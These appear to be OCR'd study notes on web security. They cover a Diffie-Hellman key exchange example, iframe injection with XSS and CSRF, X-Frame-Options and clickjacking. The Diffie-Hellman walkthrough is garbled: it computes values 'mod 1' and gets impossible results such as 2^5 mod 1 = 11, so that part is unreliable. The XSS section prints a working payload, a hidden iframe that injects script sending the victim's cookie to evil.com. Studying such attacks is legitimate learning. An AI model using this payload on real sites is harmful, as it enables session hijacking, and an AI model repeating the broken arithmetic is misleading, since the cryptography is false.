 		3. Ram and Sita agree publicly on a prime modulus and a generator

		
		RAM						SITA

		1.      a1 = 1					a2 = 1
		 	x1 = 2					x2 = 2

			The above 2 users share there prime modulous and generator values.

		2.      5 A private no is selected		7 Private no is selected by SITA
			by RAM						
		
		3.      2^5 mod 1 = 11; 11 is public		2^7 mod 1 = 13; 13 is public

			11 is calculated and                     13 is calculated sent to RAM
			sent to SITA

		4.      RAM takes SITA's public                SITA takes RAM's public no 11 and raised to the power of 7 and passes in mod 
                        and raises it to the power of		function
			his private no

			13^5 mod 1 = 10				    11^7 mod 1 = 10

Both RAM and SITA have a common symmetric number now.

18. Iframe Injection

>An example would consist of an attacker convincing the user to navigate to a web page the attacker controls. The attacker's page then loads malicious JavaScript and an HTML iframe pointing to a legitimate site. Once the user enters credentials into the legitimate site within the iframe, the malicious JavaScript steals the keystrokes. Ex: This can be used to exploit a known bug in IE browsers. 

>XSS using Iframe Injection

		1. Attackers hosts a page evil.com

		2. A website example.com has a XSS vulnerable parameter q.

		3. The user is tricked to visit evil.com that contains an iframe, which makes request to 
		the flawed example.com

	<iframe style="position:absolute;top:-9999px" src="http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>

		4. When the evil.com page is visited by the victim, the browser makes a request to example.com silently
		    using iframe. The request contains the xss vulnerable parameter and the payload is injected along.
		5. The payload says to make a request to evil.com along with the cookie of the example.com website.

>CSRF using iframe injection

Here the user doesn't knows that example.com was visited.

19. X-Frame-Options headers tells the browser not to allow loading of the webpage in an iframe, frame or object.

20. Clickjacking is an attack that occurs when an attacker uses a transparent iframe in a window to trick a user into
  clicking on a button or link, to another server in which they have an identical looking window.
